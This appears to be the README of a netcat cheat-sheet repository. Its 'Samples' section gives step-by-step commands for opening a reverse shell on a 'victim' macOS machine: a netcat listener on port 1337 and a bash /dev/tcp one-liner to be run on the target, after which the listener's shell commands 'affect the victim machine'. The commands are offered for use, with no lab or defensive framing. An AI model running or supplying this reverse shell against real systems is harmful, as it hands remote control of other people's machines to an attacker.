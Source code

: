 ## How to use netcat

You can find some sheet and samples in the [Readme](https://github.com/doctordeep/netcat_cheat_sheet_v1/tree/master/readme) folder

## Samples

Victim OSx machine:
1. Open a **listener** on your machine run in shell (linux) `nc -l -p 1337`
2. Run `bash -i >& /dev/tcp/listener_ip_address/1337 0>&1` on mac shell **victim** machine (remember to add the ip address of the listener) 
3. **Use shell commands** from your listener machine to affect the victim machine
